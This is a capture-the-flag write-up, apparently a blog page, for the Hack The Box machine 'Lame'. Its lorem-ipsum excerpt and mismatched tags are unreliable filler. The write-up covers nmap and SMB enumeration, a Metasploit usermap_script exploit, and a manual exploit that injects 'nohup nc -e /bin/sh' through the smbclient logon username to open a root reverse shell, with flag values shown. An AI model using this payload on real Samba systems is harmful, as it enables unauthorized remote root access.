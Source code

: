 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-lame/lame_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-lame/lame_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
    Nmap scan report for 10.10.10.3
    Host is up (0.035s latency).
    Not shown: 996 filtered ports
    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst:
    |   STAT:
    | FTP server status:
    |      Connected to 10.10.14.4
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey:
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
    | smb-os-discovery:
    |   OS: Unix (Samba 3.0.20-Debian)
    |   Computer name: lame
    |   NetBIOS computer name:
    |   Domain name: hackthebox.gr
    |   FQDN: lame.hackthebox.gr
    |_  System time: 2020-07-27T01:17:55-04:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)


2. Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

    root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3
            Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	print$                                            	NO ACCESS	Printer Drivers
    	tmp                                               	READ, WRITE	oh noes!
    	opt                                               	NO ACCESS
    	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))

  The share tmp seems interesting, both read and write permissions - lets enumerate more there.

NOTE: If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"
      Then go ahead and add the following two lines to /etc/samba/smb.conf under [global]:
        client min protocol = NT1
        client max protocol = SMB3

    root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
      smb: \> ls
      .                                   D        0  Mon Jul 27 07:50:50 2020
      ..                                 DR        0  Sun May 20 20:36:12 2012
      5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
      .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
      .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
      .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020

  There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.


3. Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

    root@nidus:/git/htb/lame# searchsploit samba 3.0.20
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
       Exploit Title                                                                                                              |  Path
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
      ..
      Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
      ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

  Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

    msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
    msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
    msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf5 exploit(multi/samba/usermap_script) > run

      [*] Started reverse TCP handler on 10.10.14.4:4444
      [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

      whoami
        root
      pwd
        /
      cat /root/root.txt
        92caac3be140ef409e45721348a4e9df
      ls -al /home
        total 24
        drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
        drwxr-xr-x 21 root    root    4096 May 20  2012 ..
        drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
        drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
        drwxr-xr-x  2 service service 4096 Apr 16  2010 service
        drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
      cat /home/makis/user.txt
        69454a937d94f5f0225ea00acd2e84c5


4. OPTIONAL MANUAL EXPLOIT (NO MSF)

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

  (a) Verify options with '?' or 'help'
    smbclient \\\\10.10.10.3\\tmp\\
    smb: \> ?
      [..]
      wdel           logon          listconnect    showconnect    tcon

  (b) Setup a reverse shell to your box
    smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
      Password:
      session setup failed: NT_STATUS_IO_TIMEOUT

  (c) Grab the incomming session
    [root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
      whoami
      root
      python -c 'import pty;pty.spawn("/bin/bash")';
      root@lame:/root# cat root.txt
        cat root.txt
        744e9fa96f4e8423020ccb841c60e4d2

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

